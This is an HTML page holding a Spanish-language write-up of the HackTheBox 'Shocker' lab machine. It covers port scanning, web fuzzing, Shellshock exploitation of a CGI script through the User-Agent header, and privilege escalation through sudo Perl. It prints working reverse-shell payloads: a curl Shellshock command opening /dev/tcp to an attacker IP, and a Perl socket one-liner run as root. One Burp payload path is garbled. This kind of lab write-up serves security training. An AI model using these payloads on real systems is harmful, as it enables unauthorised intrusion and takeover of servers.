

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Shocker</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Shocker" de HackTheBox

Caracteristicas:

- Easy
- Linux
- External
- Web
- Apache
- Bash
- Penetration Tester Level 1
- Remote Code Execution
- CVE-2014-6271
- A06:2021-Vulnerable And Outdated Components
- Enumeration
- CGI
- Sudo Exploitation
- Web Site Structure Discovery
- CVE Exploitation
- Security Tools
- Public Vulnerabilities
- ShellShock Attack (User-Agent) 
- Abusing Sudoers Privilege (Perl)

Util en:

- eWPT 
- eJPT

        IP 10.10.10.56

Escaneo de puertos:

- sudo nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.10.56 -oG allPorts

Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1


nmap -p 80,2222 -sCV -oA scans/nmap-tcpscripts 10.10.10.56

    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
    |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
    |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

visitamos el sitio web



ocupamos el script http enum de nmap al puerto 80

- sudo nmap --script http-enum -p80 10.10.10.56 -oN webScan

y continuamos fuzeando la ip

-  $sudo wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ

- sudo wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,sh-pl-cgi http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z

-z agregara al las extenciones sh pl cgi a cada palabra del diccionario

en el fuzz lanzado nos detecto el archivo user.sh
siempre que veamos archivos cgi-bin o derivados, debemos pensar en shellshock
recopilamos toda la data que vimos para saber que debemos lanzar este ataque que consiste en el uso de la vulnerabilidad en la Shell,
la shell se utiliza para ejecutar comandos en unix linux, es decir actúa como intérprete del lenguaje de comandos.
lance burp e intercepte la solicitud al script bash.  luego lo envía al repetidor. 


La imagen de arriba muestra la solicitud al script bash y la respuesta que obtenemos del servidor. 

Busqué en Google "Shell inverso Shellshock" y encontré este  blog  que explica cómo explotar la vulnerabilidad Shellshock 
para obtener un shell inverso en el sistema en el que se ejecuta el servidor web. 

http://www.fantaghost.com/exploiting-shellshock-getting-reverse-shell
https://blog.cloudflare.com/inside-shellshock/

Primero agregamos la siguiente cadena en el campo Agente de usuario en Burp. 

() { ignored;};/bin/bash -i >& /dev/10.10.14.6/4444/port 0>&1

luego ponemos nc en modo oyente 

- nc -nlvp 4444

Vuelvemos a Burp y ejecute la solicitud. 


y estamos dentro de shelly
tambien podemos hacerlo con curl de la siguiente manera

- sudo curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent:  () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.14.18/443 0>&1"

una vez dentro

- script /dev/null -c bash

- ctrl + z

- stty raw -echo; fg

- reset xterm

buscamos la flag de user, luego vemos los grupos y estamos dentro del grupo lxd que es critico, asi que tenemos una forma de escalar privilegios.

- searchsploit lxd
- searchsploit  -x linux/local/46978.sh

podemos ver un script que automatiza la escalada, antes de continuar se mostrara una se mostraran pasos alternativos en caso de llegar a la enumeracion 
cgi-bin/user.sh y no saber encontrar mas pistas hacemos locale .nse y vemos un monton de escripts de nmap locale*

- locate .nse | xargs grep "categories"

mostrara los scripts con sus categorias y le agregamos | grep -oP '".*?"' para que filtre solo la data que esta encapsulada entre las doble comillas

- sudo locate .nse | xargs grep "categories" | grep -oP '".*?"' | sort -u

y el sort mostrara como salida cada categoria una sola vez y en ordenamiento alfabeico.
seguimos enumerando:

- sudo -l


podemos ejecutar Perl como root, si usamos perl para enviar un shell inverso a mi máquina, se ejecutará con los mismos privilegios con los que se ejecuta perl.
asi que iremos a pentest monkeys y buscaremos una revshell en perl

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

- sudo perl -e 'use Socket;$i="10.10.14.6";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Antes de ejecutar el código, inicie nc en modo escucha en su máquina de ataque con la misma configuración que el código anterior.

- nc -nlvp 1234

ejecutamos y somos root, buscamos la flag y fin.

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>